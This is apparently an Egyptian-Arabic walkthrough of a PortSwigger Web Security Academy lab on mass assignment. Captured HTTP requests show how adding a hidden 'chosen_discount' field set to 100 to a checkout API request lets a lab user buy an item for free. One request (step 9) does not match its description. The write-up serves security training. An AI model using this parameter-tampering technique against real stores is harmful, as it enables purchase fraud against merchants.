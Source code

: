 ## الخطوات

1. في متصفح Burp، سجل دخولك للتطبيق باستخدام البيانات دي: `wiener:peter`.
2. اضغط على المنتج Lightweight "l33t" Leather Jacket واضيفه في سلة المشتريات.
3. روح للسلة واضغط "Place order"، هتلاحظ إن رصيدك مش كافي للشراء.
4. في **Proxy > HTTP history**، هتلاحظ طلبات GET و POST لـ `/api/checkout`.

### Request
```http
POST /api/checkout HTTP/2
Host: 0a5c00fd0328d67b828db0e8007f004f.web-security-academy.net

{      
 "chosen_products": [
            {
                "product_id": "1",
                "quantity": 1
            }
        ]
    }
```


5. شوف إن الاستجابة لطلب الـ GET فيها نفس هيكل الـ JSON اللي في طلب الـ POST. والفرق إن استجابة الـ GET فيها باراميتر اسمه `chosen_discount` مش موجود في الـ POST.
6. اضغط يمين على طلب الـ POST لـ `/api/checkout` واختار "Send to Repeater".

### Request
```http
POST /api/checkout HTTP/2
Host: 0a5c00fd0328d67b828db0e8007f004f.web-security-academy.net

    {
        "chosen_discount": {
            "percentage": 0
        },
        "chosen_products": [
            {
                "product_id": "1",
                "quantity": 1
            }
        ]
    }
```
7. في **Repeater**، أضف الباراميتر `chosen_discount` للطلب، وهيبقى الشكل كده:


8. ابعت الطلب، وهتلاحظ إن إضافة `chosen_discount` مفيش منها أي مشكلة.
9. غير قيمة `chosen_discount` لـ "x" وابعت الطلب. هتلاحظ إن في رسالة خطأ لأن القيمة مش رقم.
```http
POST /api/checkout HTTP/2
Host: 0a5c00fd0328d67b828db0e8007f004f.web-security-academy.net

    {
        "x": {
            "percentage": 0
        },
        "chosen_products": [
            {
                "product_id": "1",
                "quantity": 1
            }
        ]
    }
```
10. غير قيمة `chosen_discount` لـ 100، وابعت الطلب علشان تحل اللاب.

```http
POST /api/checkout HTTP/2
Host: 0a5c00fd0328d67b828db0e8007f004f.web-security-academy.net

    {
        "chosen_discount": {
            "percentage": 100
        },
        "chosen_products": [
            {
                "product_id": "1",
                "quantity": 1
            }
        ]
    }
```
